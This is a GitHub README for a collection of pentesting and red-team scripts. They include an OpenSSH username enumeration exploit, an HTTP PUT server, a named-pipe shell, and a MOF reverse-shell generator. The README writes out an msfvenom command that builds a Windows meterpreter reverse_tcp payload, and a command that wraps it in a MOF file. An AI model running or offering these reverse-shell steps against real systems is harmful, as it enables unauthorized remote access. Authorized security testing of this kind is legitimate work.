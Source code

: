 A collection of some useful script for pentesters or red teamers


## [sshUsernameEnumExploit.py](https://github.com/xax007/Scripts/tree/master/CVE-2018-15473-sshUsernameEnumExploit)

OpenSSH < 7.7 username enumeration exploit 
OpenSSH 版本小于7.7 用户名枚举漏洞利用工具 

## HTTPPutServer.py

A simple HTTP PUT Server write by python
用 Python 写的 HTTP PUT Server

## web-rce-named-pipe-shell.py

A named pipe tty shell via mkfifo.

## generate-mof-reverse-shell-file.py

This python script can generate a MOF reverse shell file.

First step, generate vbs reverse shell shellcode via `msfvenom`

`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e generic/none -f vbs -o reverse_shell.vbs`

then generate MOF file: 
`$ python3 generate-mof-reverse-shell-file.py reverse_shell.vbs > reverse_shell.mof``